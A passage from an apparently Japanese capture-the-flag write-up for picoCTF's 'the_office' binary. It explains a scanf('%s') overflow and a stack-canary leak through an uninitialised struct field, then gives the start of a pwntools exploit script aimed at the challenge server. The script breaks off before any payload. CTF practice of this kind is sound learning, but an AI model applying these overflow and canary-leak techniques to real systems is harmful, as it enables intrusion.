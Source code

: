 ```c
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Unable to read flag!");
                    /* WARNING: Subroutine does not return */
  exit(-1);
}
```

当然add関数ではadminという名前は使えないので、どこかからoverflowしているか、freeが多重にできるか、色々道はありそうです。少し時間を使いましたが、結局同じaddの電話番号入力がscanfの`%s`になっていて、素直に上から書いたら良さそうです。しかしcanaryがあるので、先にこれをリークする必要があります。

メンバのうちbldg（住所？）は入力がyes/noで選択できて、noにすれば初期化されないので、上手くこの位置にcanaryを持ってきてリークさせることができました。

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'i386'
context.terminal = ['tmux', 'split-window', '-h']
                                                                             
TARGET = './the_office'
HOST = 'mercury.picoctf.net'       
PORT = 39151
                                                                             
elf = ELF(TARGET)
def start():
        if not args.R:
                print("local")
                return process(TARGET)
                # return process(TARGET, env={"LD_PRELOAD":"./libc.so.6"})
                # return process(TARGET, stdout=process.PTY, stdin=process.PTY)
        else:           
                print("remote")
                return remote(HOST, PORT)
                                                                             
def get_base_address(proc):
        lines = open("/proc/{}/maps".format(proc.pid), 'rb').readlines()
        for line in lines :
                if TARGET[2:] in line.split('/')[-1] :
                        break
        return int(line.split('-')[0], 16)
        # return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

def debug(proc, breakpoints):
        script = "handle SIGALRM ignore\n"
        PIE = get_base_address(proc)
        script += "set $base = 0x{:x}\n".format(PIE)
        for bp in breakpoints:
                script += "b *0x%x\n"%(PIE+bp)
        script += "c"
        gdb.attach(proc, gdbscript=script)

def dbg(val): print("\t-> %s: 0x%x" % (val, eval(val)))

def a(name, email='', sal=1, phone='a', bldg=-1):
        r.sendlineafter('token\n', '1')
        r.sendlineafter(': ', name)
        if email == '':
                r.sendlineafter('? ', 'n')
        else:
                r.sendlineafter('? ', 'y')
                r.sendlineafter(': ', email)
        r.sendlineafter(': ', str(sal))
        r.sendlineafter(': ', phone)
```